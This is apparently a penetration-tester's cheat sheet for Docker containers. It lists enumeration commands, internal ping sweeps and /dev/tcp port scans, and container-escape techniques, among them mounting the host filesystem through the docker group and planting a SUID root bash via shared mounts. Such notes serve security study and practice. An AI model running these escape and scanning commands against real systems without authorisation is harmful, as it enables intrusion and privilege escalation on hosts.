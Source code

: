 ```yaml
---
icon: docker
---
```


# Docker

<details>

<summary><mark style="color:purple;"><strong><code>Enumeration</code></strong></mark></summary>

* <mark style="color:purple;">**Confirm the presence**</mark> <mark style="color:purple;">**of**</mark> <mark style="color:orange;">**`.dockerenv`**</mark>

{% code title="Check if running as root" overflow="wrap" %}
```sh
cat /proc/self/status
```
{% endcode %}

{% code title="Check SUID/SGID" overflow="wrap" %}
```sh
find / -type f \( -perm -4000 -o -perm -2000 \)
```
{% endcode %}

{% code title="Check processes" overflow="wrap" %}
```sh
ps aux
```
{% endcode %}

{% code title="Check the namespaces" overflow="wrap" %}
```sh
cat /proc/self/ns/
```
{% endcode %}

{% hint style="info" %}
<mark style="color:purple;">When the host's user information does not exist inside the container’s</mark> <mark style="color:orange;">**`/etc/passwd`**</mark> <mark style="color:purple;">file, file permissions will show numeric IDs instead of human-readable names.</mark>
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">**If the**</mark>**&#x20;**<mark style="color:orange;">**`socket`**</mark>**&#x20;**<mark style="color:purple;">**is mounted you may be able to use**</mark>**&#x20;**<mark style="color:orange;">**`docker-cli`**</mark><mark style="color:purple;">**:**</mark>

{% code overflow="wrap" %}
```sh
mount | grep docker.sock
```
{% endcode %}

```sh
ls -l /var/run/docker.sock
```
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Understand the Network`**</mark>

<mark style="color:purple;">Docker containers typically run in a private virtual network created by Docker, and the default network uses a subnet in the range</mark> <mark style="color:orange;">**`172.16.0.0/12`**</mark>

{% code title="Check the IPs" overflow="wrap" %}
```sh
ip addr
```
{% endcode %}

{% code title="Check the routing table" overflow="wrap" %}
```sh
cat /proc/net/fib_trie
```
{% endcode %}

{% code title="Always ping sweep the subnets" overflow="wrap" %}
```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
{% endcode %}

{% code title="Scan ports" overflow="wrap" %}
```sh
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```
{% endcode %}

{% code title="Use OpenSSL to scan ports" overflow="wrap" %}
```sh
for host in 1 2 3 4; do for port in 21 22 25 80 443 8080; do (echo "172.19.0.$host:$port" && openssl s_client -connect 172.19.0.$host:$port 2>/dev/null | grep CONNECTED) & done; done; wait
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Check for Mounted File Systems`**</mark>

{% code overflow="wrap" lineNumbers="true" %}
```sh
cat /proc/mounts
mount | grep <directory>
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Look for vulnerabilities and misconfiguration`**</mark>

```sh
cat /etc/docker/daemon.json
```
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>docker-cli</code></strong></mark></summary>

{% hint style="info" %}
{% code title="List running containers" overflow="wrap" %}
```sh
docker ps
```
{% endcode %}

* <mark style="color:purple;">Check for containers running with elevated privileges (</mark><mark style="color:orange;">**`--privileged`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`--cap-add`**</mark><mark style="color:purple;">).</mark>
* <mark style="color:purple;">Look for containers that share host namespaces or file systems.</mark>
{% endhint %}

{% code title="Check for docker images" overflow="wrap" %}
```sh
docker images
```
{% endcode %}

{% hint style="info" %}
<mark style="color:purple;">Look for containers running as root or with</mark> <mark style="color:orange;">**`--privileged`**</mark> <mark style="color:purple;">mode:</mark>

```sh
docker inspect
```
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Escape the container</code></strong></mark></summary>

<mark style="color:purple;">Tools like</mark> <mark style="color:orange;">**`nsenter`**</mark> <mark style="color:purple;">or</mark> <mark style="color:orange;">**`docker-exploit`**</mark> <mark style="color:purple;">can be used to attempt escaping the container.</mark>

{% hint style="info" %}
<mark style="color:purple;">If the user is in the</mark> <mark style="color:orange;">**`docker`**</mark> <mark style="color:purple;">group, attempt to run the following command to mount the host filesystem and gain access to the host:</mark>

{% code overflow="wrap" %}
```sh
docker run -v /:/mnt -it bash bash
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`File Ownership Manipulation via Shared Mounts`**</mark>

* <mark style="color:purple;">Check permissions and ownership when you create a file from host and container:</mark>

{% code lineNumbers="true" %}
```sh
touch from_host
touch from_container
```
{% endcode %}

* <mark style="color:purple;">If the container is miss configured and can creates files as a</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">, and you can access the files created by the host on the container:</mark>&#x20;
  1. <mark style="color:orange;">**`From the host`**</mark><mark style="color:purple;">, copy</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">in to the mounted directory.</mark>
  2. <mark style="color:orange;">**`From the container`**</mark><mark style="color:purple;">, change the ownership and permissions of</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">.</mark>
  3. <mark style="color:purple;">Execute</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">as</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">.</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
cp /bin/bash .
chown root:root bash; chmod 4777 bash
./bash -p
```
{% endcode %}
{% endhint %}

</details>
